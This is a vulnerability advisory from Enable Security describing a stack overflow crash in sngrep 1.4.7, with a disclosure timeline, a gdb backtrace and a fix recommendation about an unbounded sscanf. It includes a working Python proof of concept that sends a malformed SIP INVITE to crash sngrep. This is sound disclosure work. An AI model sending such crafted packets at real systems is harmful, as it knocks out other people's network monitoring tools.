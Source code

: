 # sngrep crashes due to a stack overflow caused by a malformed SDP connection address

- Fixed versions: 1.4.8
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2020-04-sngrep-malformed-connection-address>
- Tested vulnerable versions: 1.4.7
- Timeline:
    - Report date: 2020-09-16
    - sngrep confirmed issue + patch: 2020-09-16
    - sngrep release with fix: 2020-11-10
    - Enable Security advisory: 2020-11-20

## Description

When sending a specially crafted SIP message with a malformed SDP connection address, `sngrep` crashes due to a stack overflow. The following backtrace was generated during our tests:

```
(gdb) bt
#0  __GI_raise (sig=sig@entry=6)
    at ../sysdeps/unix/sysv/linux/raise.c:50
#1  0x00007ffff7ced859 in __GI_abort () at abort.c:79
#2  0x00007ffff7d583ee in __libc_message (
    action=action@entry=do_abort, 
    fmt=fmt@entry=0x7ffff7e8207c "*** %s ***: terminated\n")
    at ../sysdeps/posix/libc_fatal.c:155
#3  0x00007ffff7dfa9ba in __GI___fortify_fail (
    msg=msg@entry=0x7ffff7e82064 "stack smashing detected")
    at fortify_fail.c:26
#4  0x00007ffff7dfa986 in __stack_chk_fail () at stack_chk_fail.c:24
#5  0x0000555555560651 in sip_parse_msg_media (msg=0x7ffff0046c60, 
    payload=<optimized out>) at sip.c:740
#6  0x3131313131313131 in ?? ()
#7  0x3131313131313131 in ?? ()
```

The issue was originally discovered during [OpenSIPIt](https://opensipit.org/); tracked down and analyzed for severity and impact later.

## Impact

Since most modern build systems will automatically include run-time best practice checks, it is highly unlikely that this stack overflow issue is exploited. However, due to how fortify protection works, the program will still end up crashing. Nonetheless, this issue should not be dismissed by relying on build system protections and should be adequately fixed.

## How to reproduce the issue

1. Run `sngrep`
1. Execute the below python program
1. Notice that `sngrep` has crashed

```python
import socket

sdp="v=0\r\n" + \
    "o=- 1600157102 1600157102 IN IP4 127.0.0.1\r\n" + \
    "s=-\r\n" + \
    "c=IN IP4 127.0.0.1%s\r\n" % ('1' * 512) + \
    "t=0 0\r\n" + \
    "m=audio 9999 RTP/AVP 8 0 96 101\r\n" + \
    "a=rtpmap:8 PCMA/8000/1\r\n" + \
    "a=rtpmap:0 PCMU/8000/1\r\n" + \
    "a=rtpmap:96 opus/96000/2\r\n" + \
    "a=rtpmap:101 telephone-event/8000/1\r\n" + \
    "a=sendrecv"

sip_msg="INVITE sip:bob_1@127.0.0.1:5060 SIP/2.0\r\n" + \
    "Via: SIP/2.0/UDP 127.0.0.1:40111;rport;branch=z9hG4bK-a\r\n" + \
    "Max-Forwards: 70\r\n" + \
    "From: <sip:bob_1@127.0.0.1:5060>;tag=3Ewqeuo81F1Hjvtg\r\n" + \
    "To: <sip:bob_1@127.0.0.1:5060>\r\n" + \
    "Call-ID: maooZ4nDzmArTBkT\r\n" + \
    "CSeq: 1020 INVITE\r\n" + \
    "Contact: <sip:bob_1@127.0.0.1:40111;transport=udp>\r\n" + \
    "Content-Length: %i\r\n" % len(sdp) + \
    "Content-Type: application/sdp\r\n" + \
    "\r\n" + \
    sdp

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(sip_msg.encode(), ("127.0.0.1", 5060))
```


## Solutions and recommendations

The issue arises due to the use of `sscanf` on line 716. The length of `dst.ip` is 16, so, `sscanf` will overwrite any adjacent memory. It is recommended that the IP is first parsed, its length validated and then, if valid, the value of `dst.ip` is set.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

